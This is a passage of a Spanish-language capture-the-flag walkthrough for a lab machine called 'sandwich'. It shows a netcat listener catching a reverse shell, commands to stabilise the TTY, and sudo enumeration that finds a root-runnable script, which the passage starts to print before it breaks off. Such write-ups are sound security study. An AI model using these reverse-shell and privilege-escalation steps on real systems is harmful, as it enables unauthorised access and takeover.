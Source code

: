 Antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos lo anterior y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.80] 56780
ll104567@sandwich:~$ whoami
whoami
ll104567
```

Vamos a sanitizar la `TTY` de esta forma:

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ll104567 on sandwich:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User ll104567 may run the following commands on sandwich:
    (ALL) NOPASSWD: /opt/game.sh
```

Veremos que podremos ejecutar el script `game.sh` como el usuario `root`, por lo que vamos a leer a ver que hace dicho `script`.

```bash
#!/bin/bash

export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

MAX=2000000

ATTEMPTS=$(/usr/bin/awk -v max="$MAX" 'BEGIN {printf "%d", (log(max)/log(2) + 0.999999)}')

/bin/echo "Hello! What is your name?"
read NAME

NUMBER=$(( ( RANDOM % MAX ) + 1 ))

/bin/echo "Well, $NAME, I'm thinking of a number between 1 and $MAX."
```